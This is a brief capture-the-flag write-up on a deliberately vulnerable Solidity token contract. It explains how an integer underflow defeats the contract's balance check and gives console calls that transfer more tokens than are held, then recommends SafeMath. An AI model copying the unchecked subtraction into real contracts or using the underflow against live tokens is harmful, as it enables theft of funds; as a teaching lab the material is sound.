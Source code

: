 # Token

```javascript=
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

This is about Solidity's underflow problem, although `require(balances[msg.sender] - _value >= 0);` try to confirm that require withdraw are not greater than balance.

However, according to underflow problem in Solidity, `1-2` will be a big number close to `MAX` in Solidity.

Let's make sure how many balance we got in this account, then just determind a greater number to `transfer()`.

```javascript
contract.balanceOf(player);
contract.transfer(0xXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX/*any address*/, 21)
contract.balanceOf(player);
```

![](https://i.imgur.com/tQwSP9h.png)

Use `SafeMath` for every calculate in Solidity.